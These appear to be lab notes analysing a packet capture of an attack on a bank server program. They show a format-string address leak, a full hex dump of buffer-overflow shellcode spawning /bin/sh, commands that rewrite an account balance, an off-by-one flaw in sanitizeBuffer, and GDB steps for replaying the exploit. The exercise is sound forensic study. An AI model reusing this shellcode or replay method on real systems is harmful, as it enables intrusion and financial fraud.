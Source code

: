 # Notes

## Explicaiton Assembleur

Tout d'abord 


## Enter vms

ssh user@192.168.56.102
ssh administrateur@192.168.10.100 (from analyste)

## Logs

### syslog.4

1665 Nov 11 09:52:31 New usb enter

## Traces.pcap analysis

### n°144

```
ECHO %x%x%x%x%x
8049f6714a017ffe6e615
```

### n°258

port source : 48924

NOPs
and /bin/sh at the end

```
0000   08 00 27 d6 0f 5a 54 bf 64 79 25 77 08 00 45 00   ..'Ö.ZT¿dy%w..E.
0010   01 0a 14 44 40 00 40 06 a0 91 c0 a8 01 64 c0 a8   ...D@.@. .À¨.dÀ¨
0020   02 64 bf 1c 17 70 18 f8 6b dd 61 77 a2 e3 80 18   .d¿..p.økÝaw¢ã..
0030   00 bb 0a 0a 00 00 01 01 08 0a 00 08 80 de 00 03   .»...........Þ..
0040   d1 af 90 90 90 90 90 90 90 90 90 90 90 90 90 90   Ñ¯..............
0050   90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90   ................
0060   90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90   ................
0070   90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90   ................
0080   90 90 eb 71 5d 31 c0 31 db 31 c9 31 d2 31 ff 31   ..ëq]1À1Û1É1Ò1ÿ1
0090   f6 b0 22 89 c6 b0 c0 b1 01 66 c1 e1 0c b2 03 4f   ö°".Æ°À±.fÁá.².O
00a0   cd 80 89 c1 31 ff b3 02 89 ca 80 c1 04 31 c0 66   Í..Á1ÿ³..Ê.Á.1Àf
00b0   b8 70 01 fe c3 c6 02 10 89 39 cd 80 39 f8 75 ed   ¸p.þÃÆ...9Í.9øuí
00c0   8b 01 3c 02 75 e7 89 ca 31 c9 31 c0 b0 3f cd 80   ..<.uç.Ê1É1À°?Í.
00d0   41 b0 3f cd 80 41 b0 3f cd 80 31 c0 89 6d 08 89   A°?Í.A°?Í.1À.m..
00e0   45 0c 88 45 07 b0 0b 89 eb 8d 4d 08 8d 55 0c cd   E..E.°..ë.M..U.Í
00f0   80 b0 01 cd 80 e8 8a ff ff ff 2f 62 69 6e 2f 73   .°.Í.è.ÿÿÿ/bin/s
0100   68 41 41 41 41 41 41 41 41 41 0a 00 00 00 0d 00   hAAAAAAAAA......
0110   00 00 8b 91 98 c3 ff 0a                           .....Ãÿ.
```

### n°290

payload="uname"

response at n°292 => Linux

### n°804

payload="chmod u+w A9826"

### n°1246

payload="echo 1000000 > A9826" // the attaquant write that the bank account A9826 contains 1000000

### n°1638

payload="chmod u-w A9826"

### n°1728

payload="exit"

## WEAKNESSES

in  traitementClient.c:sanitizeBuffer, it compares using a > and not a >= 
We replay the flow using gdb. 
We notice that in trace.pcap `ECHO %x%x%x%x %x`. returns `8049f6713b018 ffc39895` while on our computer it returns `8049f67160018 ffffd365`. -- voir image serveur_ECHO_return.png
This address is found again at the end of the payload we send, but backwards.  --voir image wireshark_trace_tcp
On va donc modifier la payload qu'on envoie pour changer cette adresse moins 4 (décalage). 

## GDB

gdb peda installé par défaut sur l'analyste
gdb ./serveur

set follow-fork-mode child # to follow the child when forking
b doEcho # put a breakpoint at the doEcho function
run # launch the server
target record-full # allows to go back one step

ni # next iteration, step over to the next assembly instruction
n # next step, only available if program was compiled with debugging options

reverse-step # goes back one iteration
reverse-next # goes back one step

delete [breakpoints] [range...]

print msg.buffer / print &msg.buffer / print *msg.buffer # to check values

